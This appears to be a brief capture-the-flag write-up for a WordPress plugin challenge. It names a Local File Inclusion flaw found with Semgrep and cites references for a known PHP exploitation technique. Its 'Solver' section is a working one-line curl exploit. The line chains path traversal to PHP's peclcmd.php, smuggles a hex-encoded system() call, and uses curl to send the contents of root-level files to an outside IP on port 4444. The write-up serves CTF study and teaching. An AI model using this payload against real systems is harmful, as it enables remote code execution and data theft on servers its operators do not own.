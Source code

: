 References

    - [https://github.com/zeyu2001/My-CTF-Challenges/tree/main/SEETF-2023/readonly](https://github.com/zeyu2001/My-CTF-Challenges/tree/main/SEETF-2023/readonly)

    - [https://hackmd.io/@Solderet/AngstromCTF2023#Filestore---Web](https://hackmd.io/@Solderet/AngstromCTF2023#Filestore---Web)

***

Using Semgrep and my Semgrep custom rules, we can easily identify the vulnerable code parts. Here are the Semgrep results:

![](./imgs/image_40dZWs5o.png)

It’s Local File Inclusion, and if it’s using dockerized PHP, it can be easily exploited using this technique: <https://github.com/zeyu2001/My-CTF-Challenges/tree/main/SEETF-2023/readonly>

## Solver

```bash
curl "http://52.77.81.199:9100/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php?tab=../../../../../../../../../../usr/local/lib/php/peclcmd.php&+run-tests+-i+-r\"system(hex2bin('$(echo "curl 77.37.47.226:4444 -d \"`cat /*`\"" | hexdump -v -e '/1 "%02x"' | tr -d '\n')'));\"+/usr/local/lib/php/test/Console_Getopt/tests/bug11068.phpt"
```

### Flag
